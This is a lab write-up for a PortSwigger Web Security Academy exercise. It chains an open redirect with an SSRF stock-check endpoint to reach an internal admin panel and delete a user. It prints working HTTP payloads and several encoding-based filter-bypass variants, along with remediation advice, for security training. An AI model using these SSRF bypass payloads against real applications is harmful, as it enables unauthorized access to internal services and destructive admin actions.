# **Lab Write-Up: SSRF With Filter Bypass via Open Redirection**

**Author:** Muhil M  
**Category:** Server-Side Request Forgery (SSRF) → Filter Bypass via Open Redirect  
**Lab Difficulty:** Practitioner  

---
## **Scope**

- **Target Lab:** PortSwigger Web Security Academy
- **Environment:** Safe training instance
- **Tools Used:** Browser, Burp Suite Community, Decoder (CyberChef), curl
- **Objective:** Bypass SSRF filters by chaining an open redirect with the application’s stock-check functionality, reach the internal admin server, and delete **carlos**.

---
## **Executive Summary**

The application attempted to prevent SSRF by validating the value of the `stockApi` parameter. Direct access to internal hosts such as `localhost`, `127.0.0.1`, or `192.168.x.x` was blocked.

However, the site exposed another endpoint, `nextProduct`, which accepted a user-controlled `path` parameter and performed **unsafe open redirection**. When I combined this open redirect with the SSRF fetch performed by `stockApi`, the server ended up making requests to **internal admin endpoints**, even though the input filter would normally block them.

By chaining both functionalities, I successfully:

1. Triggered SSRF → internal admin interface
2. Retrieved the admin user list
3. Performed the internal admin action `/admin/delete?username=carlos`
4. Solved the lab

This vulnerability maps to **OWASP A10: Server-Side Request Forgery (2021)** and **CWE-918**, with the open redirect linked to **CWE-601**.

---
## **OWASP & CWE Mapping**

- **OWASP Top 10 (2021):** A10 – Server-Side Request Forgery
- **CWE:**
    - **CWE-918 — SSRF**
    - **CWE-601 — Open Redirect**
- **Impact:** Internal admin takeover → unauthorized deletion of users

---
## **Goal**

Use SSRF to reach the internal admin interface (`192.168.0.12:8080/admin`) and delete **carlos** from outside the admin context.

---

# **1. Enumeration & Understanding the Application**

I began by exploring the product pages and the stock-check feature.



The stock-check endpoint triggers a server-side fetch to whatever URL is passed in `stockApi`.



Intercepting the request in Burp confirmed this:

```http
POST /product/stock HTTP/2
Content-Type: application/x-www-form-urlencoded

stockApi=/product/stock/check?productId=1&storeId=1
```


I decoded the full request using CyberChef to understand how parameters were being parsed:



This confirmed a **server-side fetch**, making this endpoint a strong SSRF candidate.

---

# **2. Finding the Open Redirect**

While browsing normally, I noticed a **Next product** link.



The request behind it was:

```
/product/nextProduct?currentProductId=1&path=/product?productId=2
```



Changing the `path=` value redirected the server to arbitrary URLs.  
Testing with Google:

```http
GET /product/nextProduct?currentProductId=1&path=https://www.google.com/
```

Returned:

```
302 Found
Location: https://www.google.com/
```



This confirmed a **fully functional open redirect**, and it became the key to bypassing the SSRF filter.

---

# **3. Early Pivot Attempts (Browser Exploration)**

I tried exploring the internal admin endpoint through the redirect mechanism:

```
/product/nextProduct?currentProductId=1&path=http://192.168.0.12:8080/admin
```



Initially, I thought I could access the admin page directly, but I quickly realized:

- The browser isn’t making a server-side request
- The redirect leads nowhere useful because the internal IP is only accessible from the server, not from my client machine

After following the redirect:



This confirmed I needed to combine this open redirect **inside** the SSRF flow rather than testing from the browser.

---

# **4. SSRF Pivot via Open Redirect**

I stepped back and looked at the stock-fetch endpoint again.



**Idea:**  
Use `stockApi` to call `nextProduct`, which then redirects internally to admin.

So I constructed:

```
stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin
```

---

# **5. SSRF → Admin Page Retrieval**

I sent the crafted payload through Burp Repeater:

```http
POST /product/stock
stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin
```

This time, the server **successfully followed the redirect internally**, and returned the **admin HTML inside the SSRF response**.




Inside this response, I saw:

```
/admin/delete?username=wiener
/admin/delete?username=carlos
```



The SSRF pivot worked perfectly — I now had remote access to the internal admin panel.

---

# **6. Final Exploit — Deleting carlos**

I upgraded the payload to directly call the admin delete endpoint:

```
stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos
```

Final request:

```http
POST /product/stock HTTP/2
Content-Type: application/x-www-form-urlencoded

stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos
```



The server returned:

```
User deleted successfully!
```



The lab interface showed:

> **Congratulations, you solved the lab!**

---

# **Raw HTTP Evidence**

### **Stock check request**

```http
POST /product/stock
stockApi=/product/stock/check?productId=1&storeId=1
```

---

### **Valid open redirect**

```http
GET /product/nextProduct?path=https://www.google.com/
```

→ `302 Found`

---

### **SSRF to internal admin**

```http
POST /product/stock
stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin
```

→ Response includes user list

---

### **Final delete**

```http
POST /product/stock
stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos
```

→ `User deleted successfully`

---

# **Why This Vulnerability Exists**

The SSRF happens because of **two weak components interacting**:

### **1. SSRF Endpoint (`stockApi`)**

- Accepts attacker-supplied URLs
- Performs unauthenticated server-side requests
- Follows redirects automatically

### **2. Open Redirect Endpoint (`nextProduct`)**

- Accepts arbitrary URLs in `path=`
- Redirects without validation
- Enables redirect chaining

### **3. No Access Control on Internal Admin**

- `/admin` and its delete endpoints perform sensitive operations without authentication

### **Combined Impact**

**SSRF + Open Redirect = Full internal admin takeover**

---

# **Remediation Recommendations**

### **1. Strict URL whitelisting**

Allow only explicit, trusted domains:

```
https://stock-checker.example.com/*
```

---

### **2. Disable automatic redirect following**

Prevent redirect chains that bypass filtering.

---

### **3. Fix the open redirect**

Validate `path=` against a strict whitelist or block external URLs.

---

### **4. Add RBAC to admin endpoints**

Every admin action must require authentication.

---

### **5. Strengthen SSRF defenses**

- Block private IP ranges
- Enforce protocol restrictions
- Normalize + canonicalize URLs
- Reject encoded tricks

---

# **Lessons Learned**

This lab showed me how dangerous it is when two seemingly harmless features interact:

- Redirect endpoints
- SSRF-capable backend fetchers
- Weak URL validation

Even if the SSRF endpoint blocks internal hosts directly, an open redirect can completely bypass those protections.

The safest approach is **layered defense**, not relying on a single filter.

---

# **Alternate Exploitation Methods — Encoding-Based SSRF Bypasses**

After solving the lab using the open redirect chain, I tested additional methods to understand how flexible the filter was.  
All the following methods also work reliably on fresh lab instances.

---

# **Method 2A — Double URL Encoding**

### **Admin Panel**

```bash
stockApi=/product/nextProduct?currentProductId=1%2526path%253Dhttp%253A//192.168.0.12%253A8080/admin
```

### **Delete carlos**

```bash
stockApi=/product/nextProduct?currentProductId=1%2526path%253Dhttp%253A//192.168.0.12%253A8080/admin/delete%253Fusername%253Dcarlos
```

**Why it works:** double-decoding reconstructs the forbidden internal URL after filtering.

---

# **Method 2B — Mixed Encoding**

### **Admin Panel**

```bash
stockApi=/product/nextProduct?currentProductId=1%26path%3Dhttp%3A%2F%2F192.168.0.12%3A8080%2Fadmin
```

### **Delete carlos**

```bash
stockApi=/product/nextProduct?currentProductId=1%26path%3Dhttp%3A%2F%2F192.168.0.12%3A8080%2Fadmin%2Fdelete%3Fusername%3Dcarlos
```

**Why it works:** encoded `:` `/` `=` bypass naive blacklist filters.

---

# **Method 3 — Fragment (`#`) Injection**

### **Admin Panel**

```bash
stockApi=/product/nextProduct?currentProductId=1%26path=http://192.168.0.12:8080/admin%23fragment
```

**Why it works:** the filter often ignores everything after a fragment, but the backend still fetches the full URL after redirect resolution.
